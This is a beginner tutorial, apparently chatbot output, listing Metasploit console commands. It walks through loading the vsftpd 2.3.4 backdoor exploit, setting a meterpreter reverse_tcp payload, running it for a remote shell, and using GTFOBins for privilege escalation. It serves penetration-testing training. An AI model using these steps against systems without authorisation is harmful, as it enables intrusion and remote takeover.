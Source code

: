 
---

## 🔥 Metasploit Framework

**Metasploit** is a powerful penetration testing tool used for finding, exploiting, and validating vulnerabilities. It provides a database of exploits, payloads, and scanners.

### 🧰 `msfconsole` (Metasploit Console)

Run this command in terminal (with `sudo` for full permissions):

```bash
sudo msfconsole
```

This launches the Metasploit Framework console where you can use all Metasploit commands.

---

## 📢 Banner Command

```bash
banner
```

This command in `msfconsole` displays a random ASCII-art welcome banner when used inside the console. It's just for fun and aesthetics!

---

## 🔍 Search Command

Used to search for modules, exploits, or payloads:

```bash
search <version_name or keyword>
```

**Example:**

```bash
search vsftpd
```

This searches for exploits or modules related to "vsftpd".

---

## 📌 Use Command

After finding a desired exploit or module:

```bash
use <module_path>
```

**Example:**

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Loads the exploit module.

---

## ⚙️ Show Options

Displays all required and optional settings for the selected module:

```bash
show options
```

---

## 📡 Reverse TCP (Payload)

A **reverse TCP payload** makes the **target system connect back to the attacker’s machine**, giving the attacker remote access (shell).

**Why reverse?** It bypasses firewalls since the victim initiates the connection.

---

## 🎯 Show Payloads

To list all available payloads:

```bash
show payloads
```

You can filter by OS or type using `search`.

---

## 🔧 Set Payload

To set a specific payload with an exploit:

```bash
set PAYLOAD <payload_name>
```

**Example:**

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

---

## 🚀 Exploit Command

To launch the exploit:

```bash
exploit
```

Or:

```bash
run
```

This sends the payload using the selected exploit.

---

## 🔎 whereis Command (Linux)

```bash
whereis <command>
```

Locates the binary, source, and manual files of a command.

**Example:**

```bash
whereis nmap
```

---

## 🌐 gtfobins ([https://gtfobins.github.io](https://gtfobins.github.io))

**GTFOBins** is a curated list of Unix binaries that can be used to bypass local security restrictions. Great for **privilege escalation** if sudo or other permissions are misconfigured.

You can check how a certain command (like `less`, `find`, `awk`, etc.) can be abused to gain a shell.

---

## 🧠 Other Useful Resources

* **Rapid7** – Creators of Metasploit
  📍 [https://www.rapid7.com](https://www.rapid7.com)

* **Exploit-DB** – Huge database of public exploits
  📍 [https://www.exploit-db.com](https://www.exploit-db.com)

* **Tenable** – Company behind Nessus scanner
  📍 [https://www.tenable.com](https://www.tenable.com)

* **NIST** – National vulnerability database (NVD) and cybersecurity standards
  📍 [https://nvd.nist.gov](https://nvd.nist.gov)

---

Let me know if you want a **cheat sheet** version or a **PDF download** of this!
